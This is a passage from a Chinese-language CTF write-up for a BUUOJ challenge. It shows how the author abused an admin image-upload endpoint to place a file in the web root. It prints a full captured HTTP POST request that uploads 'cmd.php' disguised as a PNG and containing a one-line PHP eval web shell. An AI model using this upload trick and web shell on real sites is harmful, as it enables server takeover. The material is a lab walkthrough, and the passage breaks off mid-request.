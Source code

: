 [![](https://p0.ssl.qhimg.com/t01bd7ba5967ee6687e.png)](https://p0.ssl.qhimg.com/t01bd7ba5967ee6687e.png)

气死了，~~下次直接 pyflag 算了~~**（bushi**

[![](https://p5.ssl.qhimg.com/t0127d2a7455d1398c7.png)](https://p5.ssl.qhimg.com/t0127d2a7455d1398c7.png)

## 上传点再探

噢对了，寻思着咱挖了两个上传点都整不通，实在过意不去啊。

既然前面发现了 `www-data` 用户只有 `/var/html/www` 这个路径有权限写入，子目录么有，那可以 **传到这个网站的根目录** 啊！

这里用的是修改图片的接口，也就是上面说的 **第二处上传点**。

上传以后抓包修改几个地方，看图。

也就是让 `move_uploaded_file` 结果是移动到网站根目录下。

[![](https://p4.ssl.qhimg.com/t01b96469ddbbc2a324.png)](https://p4.ssl.qhimg.com/t01b96469ddbbc2a324.png)

```
POST /admin/admin_pic.php?nav=pic_list&amp;admin_p_nav=content HTTP/1.1
Host: a10f5ec3-1cae-476e-bb23-31ed556086dd.node4.buuoj.cn
Content-Length: 1546
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://a10f5ec3-1cae-476e-bb23-31ed556086dd.node4.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIZBj4kiaMbZzC9WL
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://a10f5ec3-1cae-476e-bb23-31ed556086dd.node4.buuoj.cn/admin/admin_pic.php?action=edit_pic&amp;id=33&amp;nav=pic_list&amp;admin_p_nav=content
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=775sgdevoo6c222oonmf0qhp71
Connection: close

------WebKitFormBoundaryIZBj4kiaMbZzC9WL
Content-Disposition: form-data; name="is_thumb"

0
------WebKitFormBoundaryIZBj4kiaMbZzC9WL
Content-Disposition: form-data; name="thumb_width"

300
------WebKitFormBoundaryIZBj4kiaMbZzC9WL
Content-Disposition: form-data; name="thumb_height"

200
------WebKitFormBoundaryIZBj4kiaMbZzC9WL
Content-Disposition: form-data; name="pic_alt"

miao
------WebKitFormBoundaryIZBj4kiaMbZzC9WL
Content-Disposition: form-data; name="new_pic"; filename="cmd.php"
Content-Type: image/png


&lt;?php @eval($_POST['cmd']);?&gt;
------WebKitFormBoundaryIZBj4kiaMbZzC9WL
Content-Disposition: form-data; name="action"

```